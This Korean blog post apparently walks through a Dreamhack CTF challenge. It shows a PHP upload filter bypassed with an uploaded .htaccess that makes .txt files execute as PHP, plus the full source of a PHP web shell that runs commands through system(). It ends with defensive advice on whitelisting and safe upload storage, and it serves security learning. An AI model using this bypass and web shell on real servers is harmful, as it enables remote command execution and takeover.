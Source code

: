 ```yaml
---
title: (13) Dreamhack Apache htaccess 문제 풀이
date: 2024-01-16 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
파일 업로드 기능을 악용하여 서버의 권한을 획득하세요 !  
  
## .htaccess
htaccess는 hypertext access의 약자로, 이 파일이 있는 디렉토리는 서버 메인 설정과 별개로 해당 디렉토리와 그 하위 디렉토리에 대한 설정을 변경할 수 있습니다.  
다양한 설정들이 있으나, 이번에 사용해볼 것은 AddType이라는 지시어 입니다.  
  
AddType 지시어는 특정 확장자를 다른 확장자로 간주하도록 할 수 있는 기능입니다.  
예를 들어,
```
AddType application/x-httpd-php .txt
```
다음과 같이 입력하면, 이 .htaccess파일이 존재하는 디렉토리 및 그 하위 디렉토리에서는 .txt파일이 php와 같이 동작하게 됩니다.

## 문제 풀이
![](http://localhost:4000/assets/img/post/13/1.png)
사이트에는 이런 형태의 파일 업로드 기능이 구현되어 있습니다.
```php
<?php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
?>
```
업로드 기능은 위와 같이 구현되어 있는데, php 관련 확장자들은 필터링해서 업로드를 막고 있습니다.  
※참고로 php 버전이 5.x버전이라 php7 확장자는 사용할 수 없었습니다.  
  
하지만 앞서 살펴본 .htaccess 파일에 대한 필터링은 없네요.
그래서 저는 아래 두 파일을 업로드 시켰습니다.  
  
.htaccess
```
AddType application/x-httpd-php .txt
```
  
shell.txt
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```
~~제가 맨날 사용하는 그 쉘입니다.~~ 두 파일 모두 업로드를 마친 후에 `/upload/shell.txt`로 들어가 보면 정상적으로 php파일 화면이 나옵니다. 이제 flag만 찾으면 됩니다.

flag는 /flag에 있습니다.
`/flag`를 입력하고 실행해주면
![](http://localhost:4000/assets/img/post/13/2.png)
flag를 얻었습니다.  
  
확장자를 예측할 수 없는 파일 업로드에는 이런 설정파일도 필터링해야 합니다.  
또한 이 문제같은 블랙리스트 기반 필터링 보다는 화이트리스트 기반 필터링이 안전하고요.  
업로드 했다고 해도 저렇게 경로를 알기 쉽게 하거나, 안전한 형태로 저장하지 않는 것은 위험합니다.
{% endraw %}